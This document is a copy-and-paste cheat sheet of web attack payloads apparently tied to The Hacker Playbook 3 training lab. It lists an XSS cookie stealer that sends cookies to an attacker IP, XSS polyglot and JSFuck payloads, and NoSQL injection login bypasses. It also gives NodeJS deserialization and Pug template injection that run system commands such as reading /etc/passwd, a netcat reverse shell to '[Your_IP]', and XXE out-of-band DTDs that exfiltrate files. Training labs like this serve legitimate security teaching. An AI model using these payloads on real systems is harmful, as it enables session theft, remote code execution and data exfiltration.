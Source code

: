 # THP-ChatSupportSystem
The Hacker Playbook 3 - Web Attacks Copy and Paste Commands


XSS Basic Attacks:
Cookie Stealing XSS: <script>document.write('<img src="http://<Your IP>/Stealer.php?cookie=' %2B document.cookie %2B '" />');</script>
Forcing the Download of a File: <script>var link = document.createElement('a'); link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>
Redirecting User: <script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
Other Scripts to Enable Key Loggers, Take Pictures, and More: http://www.xss-payloads.com/payloads-list.html?c#category=capture

HTML Entities that Support XSS:
<b onmouseover=alert('XSS')>Click Me!</b>
<svg onload=alert(1)>
<body onload="alert('XSS')">
<img src="http://test.cyberspacekittens.com" onerror=alert(document.cookie);>

Polyglot Example:
/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

JSF*ck Payload:
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()

NoSQL Example 1:
{"username":"admin","password":{"$gt":""}}

NoSQL Example 2:
username=admin&password[$gt]=&submit=login
username[$gt]=admin&password[$gt]=&submit=login

Deserialization in NodeJS:
{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()"}

Base64 Deserialization in NodeJS:
eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2VjaG8gbm9kZSBkZXNlcmlhbGl6YXRpb24gaXMgYXdlc29tZSEhID4+IC9vcHQvd2ViL2NoYXRTdXBwb3J0U3lzdGVtcy9wdWJsaWMvaGFja2VkLnR4dCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9


Pug XSS Template Injection (after authentication):
http://chat:3000/ti?user=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&comment=&link=	

Pug Template Injection (Multiplication):
http://chat:3000/ti?user=%0a%3d9*9&comment=&link=

Pug Template Injection:
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%20%69%6e%20%67%6c%6f%62%61%6c%0a%20%20%70%3d%20%69%6e%64%65%78
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%20%69%6e%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%0a%20%20%70%3d%20%69%6e%64%65%78
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%20%69%6e%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%0a%20%20%70%3d%20%69%6e%64%65%78
%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%20%0a%2d%20%78%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%20%3e%3e%20%2f%6f%70%74%2f%77%65%62%2f%63%68%61%74%53%75%70%70%6f%72%74%53%79%73%74%65%6d%73%2f%70%75%62%6c%69%63%2f%61%63%63%6f%75%6e%74%73%2e%74%78%74%27%29

JavaScript Upload RCE:
-var x = global.process.mainModule.require
-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')

XXE:
<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The %26book%3B</thp>

XXE OOB:
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>

XXE OOB DTD:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;

XXE OOB DTD Base64:
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
